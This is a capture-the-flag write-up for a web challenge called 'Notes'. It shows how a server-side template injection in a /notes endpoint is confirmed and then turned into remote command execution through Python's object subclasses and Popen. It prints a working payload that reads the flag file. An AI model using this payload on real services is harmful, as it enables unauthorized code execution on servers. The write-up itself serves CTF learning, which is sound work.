


# Notes - Solution

Created by Yarin ([GitHub](https://github.com/CmdEngineer) / [Twitter](https://twitter.com/CmdEngineer_))

## Description

http://challenges2.hexionteam.com:2001

## Solution

You start with a simple notes program:



After adding some notes



Viewing the source of the site we see:

```html
<!-- DEPRECATED <script>
    $.getJSON("/notes", (res) => {
        res.forEach(o => {
            notesList.append(document.createTextNode(o));
        });
    });
</script> -->
```

Mhmm `/notes` is interesting it gives us this json:

```json
['Note - 1', 'Note - 2']
```

This `/notes` is vulnerable to SSTI (Server Side Template Injection). \
Creating the note `{{7 * 7}}` yields `49` on `/notes`. Awesome!

Let's try to get an RCE. \
Python:

To get object object:

```py
>>> ''.__class__
<class 'str'>
>>> ''.__class__.mro()
[<class 'str'>, <class 'object'>]
>>> ''.__class__.mro()[1]
<class 'object'>
```

Now we search for exploit-able objects in object subclasses: \
`{{ ''.__class__.mro()[1].__subclasses__() }}`

Subclass number 200 and number 425 are Popen and can be used to open processes (for some weird reason number 200 doesn't work, I have no clue)

### Payload

`{{''.__class__.mro()[1].__subclasses__()[425](['cat','flag'], stdout=-1).communicate()[0] }}`

Flag: `hexCTF{d0nt_r3nder_t3mplates_w1th_u5er_1nput}`
